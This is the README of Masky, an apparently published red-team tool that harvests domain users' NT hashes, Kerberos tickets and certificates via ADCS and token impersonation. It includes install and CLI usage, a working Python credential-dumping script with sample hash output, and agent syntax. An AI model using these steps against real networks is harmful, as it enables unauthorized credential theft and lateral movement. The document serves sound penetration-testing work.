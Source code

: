 # Masky

[![PyPI version](https://badge.fury.io/py/masky.svg)](https://badge.fury.io/py/masky)
[![Twitter](https://img.shields.io/twitter/follow/_ZakSec?label=Zak&style=social)](https://twitter.com/intent/follow?screen_name=_ZakSec)

Masky is a python library providing an alternative way to remotely dump domain users' credentials thanks to an ADCS. A command line tool has been built on top of this library in order to easily gather PFX, NT hashes and TGT on a larger scope.

This tool does not exploit any new vulnerability and does not work by dumping the LSASS process memory. Indeed, it only takes advantage of legitimate Windows and Active Directory features (token impersonation, certificate authentication via kerberos & NT hashes retrieval via PKINIT). A [blog post](https://z4ksec.github.io/posts/masky-release-v0.0.3/) was published to detail the implemented technics and how Masky works.

Masky source code is largely based on the amazing [Certify](https://github.com/GhostPack/Certify) and [Certipy](https://github.com/ly4k/Certipy) tools. I really thanks their authors for the researches regarding offensive exploitation technics against ADCS (see. [Acknowledgments section](#acknowledgments)). 

## Installation

Masky python3 library and its associated CLI can be simply installed via the public PyPi repository as following:
```
pip install masky
```

The Masky agent executable is already included within the PyPi package.

Moreover, if you need to modify the agent, the C# code can be recompiled via a Visual Studio project located in `agent/Masky.sln`. It would requires `.NET Framework 4` to be built.

## Usage

Masky has been designed as a Python library. Moreover, a command line interface was created on top of it to ease its usage during pentest or RedTeam activities.

For both usages, you need first to retrieve the FQDN of a `CA server` and its `CA name` deployed via an ADCS. This information can be easily retrieved via the `certipy find` option or via the Microsoft built-in `certutil.exe` tool. Make sure that the default `User` template is enabled on the targeted CA.

Warning: Masky deploys an executable on each target via a modification of the existing `RasAuto` service. Despite the automated roll-back of its intial `ImagePath` value, an unexpected error during Masky runtime could skip the cleanup phase. Therefore, do not forget to manually reset the original value in case of such unwanted stop.

### Command line

The following demo shows a basic usage of Masky by targeting 4 remote systems. Its execution allows to collect NT hashes, CCACHE and PFX of 3 distincts domain users from the sec.lab testing domain.

<p align="center">
  <img src="./assets/masky_demo.gif" alt="Masky CLI demo" />
</p>


Masky also provides options that are commonly provided by such tools (thread number, authentication mode, targets loaded from files, etc. ).

```
  __  __           _
 |  \/  | __ _ ___| | ___   _
 | |\/| |/ _` / __| |/ / | | |
 | |  | | (_| \__ \   <| |_| |
 |_|  |_|\__,_|___/_|\_\__,  |
  v0.0.3                 |___/

usage: Masky [-h] [-v] [-ts] [-t THREADS] [-d DOMAIN] [-u USER] [-p PASSWORD] [-k] [-H HASHES] [-dc-ip ip address] -ca CERTIFICATE_AUTHORITY [-nh] [-nt] [-np] [-o OUTPUT]
             [targets ...]

positional arguments:
  targets               Targets in CIDR, hostname and IP formats are accepted, from a file or not

options:
  -h, --help            show this help message and exit
  -v, --verbose         Enable debugging messages
  -ts, --timestamps     Display timestamps for each log
  -t THREADS, --threads THREADS
                        Threadpool size (max 15)

Authentication:
  -d DOMAIN, --domain DOMAIN
                        Domain name to authenticate to
  -u USER, --user USER  Username to authenticate with
  -p PASSWORD, --password PASSWORD
                        Password to authenticate with
  -k, --kerberos        Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters.
  -H HASHES, --hashes HASHES
                        Hashes to authenticate with (LM:NT, :NT or :LM)

Connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -ca CERTIFICATE_AUTHORITY, --certificate-authority CERTIFICATE_AUTHORITY
                        Certificate Authority Name (SERVER\CA_NAME)

Results:
  -nh, --no-hash        Do not request NT hashes
  -nt, --no-ccache      Do not save ccache files
  -np, --no-pfx         Do not save pfx files
  -o OUTPUT, --output OUTPUT
                        Local path to a folder where Masky results will be stored (automatically creates the folder if it does not exit)
```

### Python library

Below is a simple script using the Masky library to collect secrets of running domain user sessions from a remote target.

```python
from masky import Masky
from getpass import getpass


def dump_nt_hashes():
    # Define the authentication parameters
    ca = "srv-01.sec.lab\sec-SRV-01-CA"
    dc_ip = "192.168.23.148"
    domain = "sec.lab"
    user = "askywalker"
    password = getpass()

    # Create a Masky instance with these credentials
    m = Masky(ca=ca, user=user, dc_ip=dc_ip, domain=domain, password=password)

    # Set a target and run Masky against it
    target = "192.168.23.130"
    rslts = m.run(target)

    # Check if Masky succesfully hijacked at least a user session
    # or if an unexpected error occured
    if not rslts:
        return False

    # Loop on MaskyResult object to display hijacked users and to retreive their NT hashes
    print(f"Results from hostname: {rslts.hostname}")
    for user in rslts.users:
        print(f"\t - {user.domain}\{user.name} - {user.nt_hash}")

    return True


if __name__ == "__main__":
    dump_nt_hashes()
```

Its execution generate the following output.

```
$> python3 .\masky_demo.py
Password:
Results from hostname: SRV-01
         - sec\hsolo - 05ff4b2d523bc5c21e195e9851e2b157
         - sec\askywalker - 8928e0723012a8471c0084149c4e23b1
         - sec\administrator - 4f1c6b554bb79e2ce91e012ffbe6988a
```

A `MaskyResults` object containing a list of `User` objects is returned after a successful execution of Masky. 

Please look at the `masky\lib\results.py` module to check the methods and attributes provided by these two classes.

### Standalone Masky agent

From the Masky version 0.0.5, the standalone executable agent can now easily be ran without the Python CLI.

Here are the arguments:
```
$> .\Masky.exe /ca:'CA SERVER\CA NAME' (/template:User) (/currentUser) (/output:./output.txt) (/debug:./debug.txt)
```

The `/ca` parameter is mandatory as for the Python CLI. Moreover, the `/currentUser` argument has been added to avoir running token impersonation. Indeed, a simple certificate request will be performed in the current user context, based on the provided template (`template`). The `/output` and `/debug` parameters allow to specify the path where will be created the files.

The default values are the following:
- currentUser: false (aka. impersonation is enabled);
- template: User;
- output: ./Masky_results.txt
- debug: ./Masky_debug.txt

<p align="center">
  <img src="./assets/masky_agent_standalone.png" alt="Masky standalone agent demo" />
</p>

## Acknowledgments

- [Olivier Lyak](https://twitter.com/ly4k_) for the [Certipy](https://github.com/ly4k/Certipy) tool and the [associated articles](https://medium.com/@oliverlyak)
- [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) for the [Certify](https://github.com/GhostPack/Certify) tool and the [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) article
- [Dirk-jan](https://twitter.com/_dirkjan) for the [PKINITtools](https://github.com/dirkjanm/PKINITtools) and its [ADCS NTLM relay](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/) article
- [SecureAuthCorp](https://github.com/SecureAuthCorp) and the associated contributors for the [Impacket](https://github.com/SecureAuthCorp/impacket) library
- [Pixis](https://twitter.com/HackAndDo) for the tool [Lsassy](https://github.com/Hackndo/Lsassy)
- Incognito tool and its [Metasploit implementation](https://github.com/rapid7/metasploit-payloads/blob/master/c/meterpreter/source/extensions/incognito/)
- [S3cur3Th1sSh1t](https://twitter.com/ShitSecure) for the tool [SharpImpersonation](https://github.com/S3cur3Th1sSh1t/SharpImpersonation) and the [associated article](https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/)
- McAfee for their article regarding the [token impersonation techniques](https://www.mcafee.com/enterprise/en-us/assets/reports/rp-access-token-theft-manipulation-attacks.pdf)